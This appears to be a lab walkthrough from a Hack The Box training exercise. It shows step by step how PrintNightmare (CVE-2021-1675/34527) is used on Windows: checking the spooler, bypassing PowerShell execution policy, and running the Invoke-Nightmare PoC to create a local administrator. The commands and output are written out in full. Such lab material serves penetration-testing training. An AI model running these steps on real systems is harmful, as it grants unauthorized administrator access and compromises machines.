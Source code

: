 ## CVE-2021-1675/CVE-2021-34527 PrintNightmare

1) Checking for Spooler Service

```
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```


https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

2) Bypassing the execution policy on target

```
Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```
3) Adding Local Admin with PrintNightmare PowerShell PoC


```
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
```

4) Confirming New Admin User

```
PS C:\htb> net user hacker

User name                    hacker
Full Name                    hacker
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            ?8/?9/?2021 12:12:01 PM
Password expires             Never
Password changeable          ?8/?9/?2021 12:12:01 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
```